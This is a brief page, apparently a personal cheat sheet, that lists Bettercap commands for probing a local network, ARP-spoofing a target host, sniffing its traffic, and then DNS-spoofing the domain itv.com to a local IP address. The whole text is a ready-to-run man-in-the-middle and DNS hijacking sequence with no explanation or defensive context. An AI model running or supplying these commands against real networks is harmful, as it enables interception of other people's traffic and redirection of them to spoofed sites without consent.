 # Bettercap

net.probe on
net.show
set arp.spoof.targets 192.168.0.x
arp.spoof on
net.sniff on



net.sniff off
set dns.spoof.domains itv.com
set dns.spoof.address 192.168.0.3
dns.spoof on


